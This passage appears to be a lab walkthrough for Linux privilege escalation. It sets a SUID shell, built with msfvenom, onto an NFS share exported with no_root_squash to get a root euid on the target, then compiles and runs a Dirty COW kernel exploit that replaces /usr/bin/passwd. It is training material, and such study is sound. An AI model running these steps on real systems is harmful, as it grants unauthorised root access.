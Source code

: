 
**On the workstation**

```bash
user@kali:/data$ sudo su
root@kali:/data# mkdir /tmp/nfs
root@kali:/data# mount -o rw,vers=2 10.10.118.70:/tmp /tmp/nfs/
root@kali:/data# ls -l /tmp/nfs/
total 104
-rw-r--r-- 1 root root 97370 Jun  1 09:00 backup.tar.gz
-rw-r--r-- 1 root root    28 Jun  1 09:00 useless
root@kali:/data# msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 48 bytes
Final size of elf file: 132 bytes
Saved as: /tmp/nfs/shell.elf
root@kali:/data# chmod +xs /tmp/nfs/shell.elf
root@kali:/data# 
```

**On the server**

```bash
user@debian:/tmp$ /tmp/shell.elf 
bash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1# 
```

Answer: `no_root_squash`

# [Task 20] Kernel Exploits

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

Run the **Linux Exploit Suggester 2** tool to identify potential kernel exploits on the current system:

```bash
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at **/home/user/tools/kernel-exploits/dirtycow/c0w.c**. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

Compile the code and run it (note that it may take several minutes to complete):

```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```
